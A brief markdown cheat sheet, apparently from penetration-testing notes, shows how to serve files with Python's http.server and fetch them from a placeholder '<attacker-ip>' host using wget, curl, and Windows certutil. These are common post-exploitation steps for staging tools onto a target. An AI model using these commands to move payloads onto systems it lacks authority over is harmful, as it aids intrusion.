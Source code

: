 
## Python server for file transmission 
If you need to transfer a file from one machine to another, you can follow this process:

#### Linux

```bash 
# machine 1
python3 -m http.server 8081

# machine 2
wget http://<attacker-ip>:<port>/<file>
# or
curl http://<attacker-ip>:<port>/<file> -o <output-file>
```

#### Windows

```bash 
# Linux machine 
python3 -m http.server 8081

# Windows machine 
certutil -urlcache -f http://<attacker-ip>:<port>/<file> <new_file_name>
```

